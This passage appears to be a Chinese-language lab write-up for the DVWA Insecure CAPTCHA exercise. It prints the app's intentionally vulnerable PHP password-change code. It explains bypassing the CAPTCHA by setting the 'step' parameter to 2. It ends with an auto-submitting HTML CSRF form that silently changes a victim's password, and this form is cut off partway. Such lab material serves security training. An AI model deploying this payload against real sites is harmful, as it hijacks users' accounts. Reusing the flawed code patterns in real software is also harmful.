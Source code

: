 ```php
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check to see if both password match
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the end user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with the passwords matching
        echo "<pre>Passwords did not match.</pre>";
        $hide_form = false;
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
这里由于验证码模块失效没有recaptcha_challenge_field、recaptcha_response_field两个参数.但是不影响我们绕过.
我们看到验证流程只验证了`step`和`change`,当`step`为2的时候表示通过了验证,所以我们直接抓包修改step为2,发包成功了.

这两个参数是通过post获得,由于页面没有防csrf机制,我们可以通过构造含有表单的攻击页面,诱导用户访问.

```html
<html>      

<body onload="document.getElementById('transfer').submit()">        

  <div>    

    <form method="POST" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/captcha/">     

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">     

		<input type="hidden" name="step" value="2"      

		<input type="hidden" name="Change" value="Change">        

	</form>        

  </div>        

```